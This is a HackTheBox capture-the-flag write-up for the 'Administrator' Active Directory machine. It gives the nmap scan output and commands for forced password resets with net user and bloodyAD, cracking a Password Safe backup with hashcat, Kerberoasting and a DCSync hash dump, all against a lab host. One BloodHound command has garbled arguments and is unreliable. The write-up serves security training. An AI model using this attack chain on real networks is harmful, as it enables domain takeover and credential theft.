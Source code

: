 ```yaml
---
title: "HackTheBox - Administrator"
permalink: /CTFs/HTB-Administrator/
date: 2024-11-22
categories: [HackTheBox]
tags: [Active Directory, PsRemote, DCSync, GenericWrite]
math: true
mermaid: true
image:
  path: /assets/img/CTFs/Administrator/back.jpg
---
```

This machine necessitates a basic understanding of active directory and how to take use of both `DCSync` and `GenericWrite` misconfigurations.\
The author provides creds for initial access
> As is common in real life Windows pentests, you will start the Administrator box with credentials for the following account: Olivia / ichliebedich

## Recon
Nmap output
``` bash
# Nmap 7.94SVN scan initiated Fri Nov 22 20:56:56 2024 as: nmap --privileged -sC -sV -T4 -p- -oN nmap.scan -vv 10.10.11.42
Increasing send delay for 10.10.11.42 from 0 to 5 due to 677 out of 1691 dropped probes since last increase.
Increasing send delay for 10.10.11.42 from 5 to 10 due to 11 out of 18 dropped probes since last increase.
Nmap scan report for administrator.htb0 (10.10.11.42)
Host is up, received echo-reply ttl 127 (0.17s latency).
Scanned at 2024-11-22 20:56:56 EET for 819s
Not shown: 65509 closed tcp ports (reset)
PORT      STATE SERVICE       REASON          VERSION
21/tcp    open  ftp           syn-ack ttl 127 Microsoft ftpd
| ftp-syst:
|_  SYST: Windows_NT
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2024-11-22 19:32:19Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
62760/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
65336/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
65341/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
65352/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
65363/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
65399/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 35406/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 26601/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 52617/udp): CLEAN (Timeout)
|   Check 4 (port 36581/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time:
|   date: 2024-11-22T19:33:17
|_  start_date: N/A
|_clock-skew: 22m51s

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Nov 22 21:10:35 2024 -- 1 IP address (1 host up) scanned in 819.81 seconds
```
port `88` is open so  it’s highly likely a Domain Controller, from ldap output we can see the domain is `administrator.htb`.

After adding it to `/etc/hosts` I started to mess around in `SMB` shares but it was fruitless, I noticed port `21` is running so I tried to connect to it using the provided creds but I couldn't with this user

I run bloodhound to get more info
```bash
bloodhound-python -u Olivia -p  -c All -d ichliebedich -dc administrator.htb -ns 10.10.11.42
```

---
## User flag

After messing around in `bloodhound` I noticed this
![image](/assets/img/CTFs/Administrator/olivia_micheal.png)
`GenericAll` gives the right to `Olivia` to change `Micheal` Password without knowing it, so I used `net.exe` (connected with `evil-winrm` using `olivia` creds) to change `Micheal` password
```bash
net user micheal michealpassword123!
```

After owning `micheal` I searched for his rights and I found the following
![image](/assets/img/CTFs/Administrator/michael_benjamin.png)
I tried using `net` cmdlet again but it failed, so I used `bloodyAD`
```bash
bloodyAD.py --host "10.10.11.42" -d "administrator.htb" -u "michael" -p "michealpassword123!" set password "benjamin" "benjaminpassword123!"
```
Now we own 3 users.

I got stuck here for some time but I remembered the open port on `21`, so tried to connect to it with the newly-owned users and got a hit on the `benjamin` user

There was a file called `Backup.psafe3` so I donwloaded it, I searched for applications that support this type of files and I found [password safe](https://pwsafe.org/).
> the file can also be dowloaded using NetExec:
```bash
nxc ftp administrator.htb -u 'benjamin' -p ****** --get Backup.psafe3
```



The app asked for the file and master password for the file, `hashcat` has module for it
```bash
hashcat Backup.psafe3 /usr/share/wordlists/rockyou.txt -m 5200 --force
```
And it cracked the safe!
![image](/assets/img/CTFs/Administrator/safe.png)

`emily` passowrd was valid
![image](/assets/img/CTFs/Administrator/user_pwned.png)

---
## Root flag
After poking around I saw something interesting
![image](/assets/img/CTFs/Administrator/methodology.png)

`emily` has `GenericWrite` over `ethan`, and `ethan` has `DCSync` over the domain. So our methodology here is going to be getting the hash for `ethan` and crack it to be able to get the hash of `administrator`.

### GenericWrite
It can be exploited using [targetedKerberoast](https://github.com/ShutdownRepo/targetedKerberoast)
![image](/assets/img/CTFs/Administrator/ethan_hash.png)
running `hashcat` on the hash and it was crackable

### DCSync
with `ethan` password now we can use `secretsdump` from Impacket to get `administrator` hash
![image](/assets/img/CTFs/Administrator/admin_hash.png)

And the machine is pwned
![image](/assets/img/CTFs/Administrator/root_pwned.png)